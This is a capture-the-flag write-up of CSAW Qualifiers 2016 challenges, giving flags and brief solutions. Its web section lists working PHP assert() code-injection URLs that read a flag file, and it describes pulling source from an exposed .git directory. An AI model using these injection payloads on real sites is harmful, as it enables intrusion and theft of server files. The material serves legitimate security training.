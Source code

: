 # CSAW Qualifiers 2016 File Dump

# "Notesy 2.0" 1: (Solved)

Problem: "Remember last year?"

Flag: `abcdefghijklmnopqrstuvwxyz`

# "Kill" Forensics 50: (Solved)

Problem: "Is kill can fix? Sign the autopsy file?"

Solution: File is a corrupted `.pcapng`.  It will not open in Wireshark or tcpdump.  File is readable in text editor.  Used `file_search.py` to find the flag.

Flag: `flag{roses_r_blue_violets_r_r3d_mayb3_harambae_is_not_kill}`


# "MFW" Web 125: (Solved)

Problem: "Hey, I made my first website today. It's pretty cool and web7.9."

Solution: Remote code execution through URL.  Attached Burp as a proxy to my browser.  Inspected the HTML, and notice possible `?/page=flag`.
The site also points out how it is built with git `http://web.chal.csaw.io:8000/.git/config` is accessible.  
I utilized a [DVCS-ripper](https://github.com/kost/dvcs-ripper) to download the repository.
Attempted file inclusion, but like the code shows it is not feasible.  
After anaylzing the code I ran it locally and tried many different URLs.  I added a debug line of `echo("<script>console.log( 'Debug Objects: " . assert("file_exists('$file')") . "' );</script>");`  I then ran the following urls:

1. `http://web.chal.csaw.io:8000/?page=phpinfo();`
2. `http://web.chal.csaw.io:8000/?page=http://web.chal.csaw.io:8000/templates/flag.php`
3. `http://web.chal.csaw.io:8000/?page=file_get_contents(%22/templates/flag.php%22);`
4. `http://web.chal.csaw.io:8000/?page= flag')%26%26file_get_contents('/templates/flag`
5. `http://web.chal.csaw.io:8000/?page=flag%27)||die(%27templates/flag`
6. `http://web.chal.csaw.io:8000/?page=flag%27%29||var_dump%28file_get_contents%28%27templates/flag.php%27%29%29;//`

The php code has [seemingly interesting defense](https://www.exploit-db.com/papers/12871/) built into it to distract someone at first through defeating a local file inclusion `assert("strpos('$file', '..') === false")`.
But `assert()` will execute PHP code, and thus that is it's weak point.

tried:
`/?page=phpinfo();`
`/?page=http://web.chal.csaw.io:8000/templates/flag.php`
`/?page=file_get_contents(%22/templates/flag.php%22);`
`page= flag')%26%26file_get_contents('/templates/flag`
`http://localhost/index.php?page=flag%27)||die(%27templates/flag`
``

Flag: `flag{3vald_@ss3rt_1s_best_a$$ert}`


# "Warmup" PWN 50: (Attempted):

What I did: Ran `file warmup`: `warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped`.  
Exposing a pointer that is the address of `easy`. `_gets` is taking in 0 and a pointer.
